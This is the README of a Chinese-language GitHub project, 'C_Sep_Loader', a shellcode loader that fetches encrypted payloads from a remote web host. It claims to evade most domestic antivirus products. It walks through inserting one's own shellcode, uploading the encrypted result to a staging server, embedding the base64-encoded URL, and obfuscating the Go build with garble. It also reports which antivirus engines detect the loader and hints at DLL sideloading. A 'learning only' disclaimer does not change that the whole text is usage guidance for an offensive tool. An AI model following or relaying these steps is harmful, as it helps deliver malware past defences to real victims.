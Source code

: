 # C_Sep_Loader

## Introduce

一个简单的远程分离的加载器,免杀国内大部分杀软

## How to use

### C版本

修改Encryption/payload_c_x64.py的24行，改为自己的shellcode

运行python脚本（环境python3.6）

将生成的result.txt上传到Web端（Oss,跳板等机器）

copy自己的地址如http://example.org 并进行[base64编码](https://www.base64decode.org/)

将http://example.org_base64 替换 ShellCodeLoader/Source.c 的170行，生成64位发行版即可

### Go版本

修改Encryption/payload_c_x64.py的24行，改为自己的shellcode

运行python脚本（环境python3.6）

将生成的result.txt上传到Web端（Oss,跳板等机器）

copy自己的地址如http://example.org 并进行[base64编码](https://www.base64decode.org/)

Go1.20以上,[Garble](https://github.com/burrowers/garble)，使用garble进行编译

    garble -seed=random build main.go

生成出main.exe,使用方法为带参运行e.g.

    main.exe 5L2g5ZKL5Zue5LqL5bCP5LyZ5a2Q5oOz5bmy5Zib(base64编码过的地址)

## Log
2024.6.20 小更一下，~~摸会鱼~~，后续有时间再更。
2024.6.29 使用go重构项目，采用分离加载，原理同C版本。
![image](https://github.com/1K0ng/C_Sep_Loader/assets/156843472/b08c2b23-1199-48a1-a3a8-f217b6cffa0b)
![image](https://github.com/1K0ng/C_Sep_Loader/assets/156843472/88721c70-28fc-4c32-a9b5-589ae29535cb)
![image](https://github.com/1K0ng/C_Sep_Loader/assets/156843472/5c0cb532-c451-4184-a563-8b01fd160ea8)

诺顿动态还是不得行，建议白加黑（埋个小坑）

![image](https://github.com/1K0ng/C_Sep_Loader/assets/156843472/21b3e4e9-e88e-4ff6-b730-6d56055306be)
![image](https://github.com/1K0ng/C_Sep_Loader/assets/156843472/855f1010-bf32-478a-bb7c-1eab413faf4c)

勉强能用

## Ps
此项目为开源项目，仅提供与学习。项目样本会在公开前由本人扔沙箱，请勿用于违法行为，造成的违法行为与本人无关；如转载请标明出处，请勿商用，请勿商用，请勿商用！！！

菜鸡本人的垃圾项目，未添加反调试反沙箱等代码，因而不保证其免杀时效。

issus暂不解答免杀的问题，技术讨论可以提issus，求抱大佬大腿.jpg.

## Contact
Email:1K0ng@proton.me 请标明来意。

## Reference

Obfuscate Go builds https://github.com/burrowers/garble

## Star History

![Star History Chart](https://api.star-history.com/svg?repos=1K0ng/C_Sep_Loader&type=Date)






